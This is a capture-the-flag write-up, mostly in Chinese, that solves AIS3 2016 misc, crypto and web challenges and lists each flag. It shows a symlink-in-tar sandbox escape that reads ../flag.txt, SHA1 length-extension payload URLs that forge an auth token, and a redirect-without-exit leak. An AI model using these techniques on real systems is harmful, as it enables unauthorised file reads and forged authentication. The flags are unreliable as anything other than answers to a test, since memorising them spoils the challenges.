

## misc-1

Open the `[misc1.txt]`(misc1/misc1.txt)

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [file](misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔


從 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z



修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`


成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，

再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔


重複做了好幾次發現，這個壓縮檔可能包了好幾層...

執行以下程式，最後得到 `flag.txt`

`WeiYu$ python misc2_sol.py`

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 symbolic link)

`WeiYu$ ln -s ../flag.txt guess.txt`

`WeiYu$ tar cvf guess.tar guess.txt`

`WeiYu$ python misc3_sol.py`

Here is the misc3_sol.py code

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```

The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面


得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰

後來發現有個英文單字拼錯，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2

Source Code

``` php
<?php
    $path = "..";
    $file = "flag.txt";
    $authenticated = false;
    $secret = trim(file_get_contents("$path/$file"));
    assert(strlen($secret) <= 60);

    if(isset($_GET['expire']) && isset($_GET['auth'])) {
        $expire = $_GET['expire'];
        $auth = $_GET['auth'];
        $qstr = substr(strstr($_SERVER['REQUEST_URI'], '?'), 1);
        $qstr = preg_replace('/&auth=.*/', '', $qstr);
        $qstr = urldecode($qstr);
        if(sha1($secret . "$qstr") === $auth) {
            if($expire > time(0)) {
                $authenticated = true;
            }
        }
    } else {
        $expire = time(0) - 1000000;
        $auth = sha1($secret . "expire=$expire");
        $uri = preg_replace('/\?.*/', '', $_SERVER['REQUEST_URI']);
        header("HTTP/1.1 302 Found");
        header("Location: $uri?expire=$expire&auth=$auth");
        die;
    }
?>
```

這篇參考了 PCC 的 [writeup](https://github.com/pcchou/ctf-writeups/blob/master/2016/tw-edu-ctf/LEA/README.md")

得知此題是 `length extension attack` 處理

Payload 1
```
https://quiz.ais3.org:8014/?expire=1467343030%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01h
&expire=2467343030&auth=b3afa04f67bff2c22754d4313a91b82cf2ad0eb0
```
Payload 2
```
https://quiz.ais3.org:8014/?expire=1467346517&auth=5c85f041d3de578d2acca06a90cf83633129e24e
&expire=12467346517
```

The key is `ais3{HasH.eXtension.@tt@ck!}`

## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

``` php
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)

可以自己架起來玩 [PHP](web3/) 此漏洞在 PHP7 已被修復
